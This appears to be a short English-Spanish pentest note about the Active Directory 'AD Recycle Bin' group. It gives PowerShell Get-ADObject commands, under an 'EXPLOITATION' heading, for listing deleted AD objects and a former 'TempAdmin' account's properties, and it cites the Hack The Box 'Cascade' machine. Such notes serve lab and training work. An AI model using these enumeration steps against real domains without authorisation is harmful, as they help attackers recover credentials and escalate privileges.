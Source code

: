 ## DESCRIPTION

This group gives you permission to read deleted AD object.
AD Recycle Bin is a well-know Windows group. [Active Directory Object Recovery (or Recycle Bin)](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/) is a feature added in Server 2008 to allow administrators to recover deleted items just like the recycle bin does for files.

Te da permisos para leer los objetos borrados del AD aunque estos sean de administrador.

#### Mas información
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges
* https://0xdf.gitlab.io/2020/07/25/htb-cascade.html#privesc-arksvc--administrator

## EXPLOITATION

```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *


#Para obtener mas detalles de una cuenta podemos filtrar por ejemplo usuario TempAdmin
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```

## MACHINES

* Hack The Box: Cascade

